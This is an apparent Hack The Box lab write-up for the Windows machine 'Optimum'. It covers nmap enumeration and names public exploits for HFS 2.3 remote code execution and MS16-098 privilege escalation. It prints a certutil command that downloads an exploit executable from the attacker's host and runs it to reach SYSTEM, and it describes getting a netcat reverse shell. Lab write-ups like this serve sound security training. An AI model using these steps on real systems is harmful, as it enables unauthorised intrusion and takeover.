








# HTB - Optimum

#### Ip: 10.10.10.8
#### Name: Optimum
#### Rating: Easy

----------------------------------------------------------------------


### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/HTB/Optimum]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.8    
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-21 14:43 CDT
Nmap scan report for 10.10.10.8
Host is up (0.067s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.37 seconds
```

Looks like just port 80 open here, lets scan it again but this time use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/HTB/Optimum]
└─$ sudo nmap -sC -sV -T4 10.10.10.8 -p 80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-21 14:45 CDT
Nmap scan report for 10.10.10.8
Host is up (0.065s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.95 seconds
```
Cool, looks like Nmap has identified HttpFileServer httpd 2.3 running, and we can confirm that by heading to the site itself:



Searching for this version in Google we find an RCE that looks promising: https://www.exploit-db.com/exploits/39161



### Exploitation

First I'll copy over a copy of nc.exe to my working directory, set up a Python http server, and then update the script with my correct IP and port I'll be listening on. 



After that I'll use the exploit to transfer nc.exe to the target, and get a reverse shell back on my listener:



Nice! That Worked! We can now grab the user.txt flag:



### Privilege Escalation

First I'll transfer over a copy of winPEAS to help with the enumeration for privesc:



Looking through the results I'm not seeing much. Because I know this is an old machine, I run `systeminfo` to see if I can get any more info:

```text
C:\Users\kostas\Documents>systeminfo
systeminfo

Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User

<snip>
```

Googling Microsoft Windows Server 2012 R2 Standard leads me to MS16-098 and I find this exploit: https://www.exploit-db.com/exploits/41020



I can transfer over the executable with certutil, and simply run it.

```text
C:\Users\kostas\Documents>certutil -urlcache -split -f "http://10.10.14.46/41020.exe"
certutil -urlcache -split -f "http://10.10.14.46/41020.exe"
****  Online  ****
  000000  ...
  088c00
CertUtil: -URLCache command completed successfully.

C:\Users\kostas\Documents>41020.exe
41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Documents>whoami
whoami
nt authority\system
```

Nice! We are now nt authorit\sytem on the target! Lets grab that root.txt flag:



Thanks for following along!

-Ryan

-----------------------------------------------------------------
